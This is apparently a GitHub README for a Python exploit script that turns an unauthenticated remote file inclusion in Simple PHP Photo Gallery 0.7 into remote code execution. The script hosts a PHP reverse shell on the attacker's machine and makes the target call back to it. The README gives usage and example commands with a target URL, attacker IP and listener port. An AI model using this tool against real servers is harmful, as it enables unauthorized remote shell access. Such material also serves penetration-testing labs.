 # SimplePHPGal-RCE.py RFI --> RCE
Simple PHP Photo Gallery 0.7 is vulnerable to Unauthenticated RFI. This script will attempt to turn that into RCE by automatically hosting a PHP reverse shell and then calling that shell back. The attacker still needs to catch the shell with netcat or something similar. 

Credit: https://www.exploit-db.com/exploits/48424

python3 SimplePHPGal-RCE.py -h

usage: SimplePHPGal-RCE.py [-h] [--httpport HTTPPORT] url attackerip attackerport

This script uses an RFI in SimplePHPGal to get RCE

python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444

python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444 --httpport 8080

positional arguments:

  url                  The URL of the target.
  
  attackerip           Kali IP address for reverse shell and http server
  
  attackerport         Port for the reverse shell.
### You may need to change the port to something other than 4444 maybe try ports that the machine has open.

optional arguments:

  -h, --help           show this help message and exit
  
  --httpport HTTPPORT  Port for the http server. Default 80
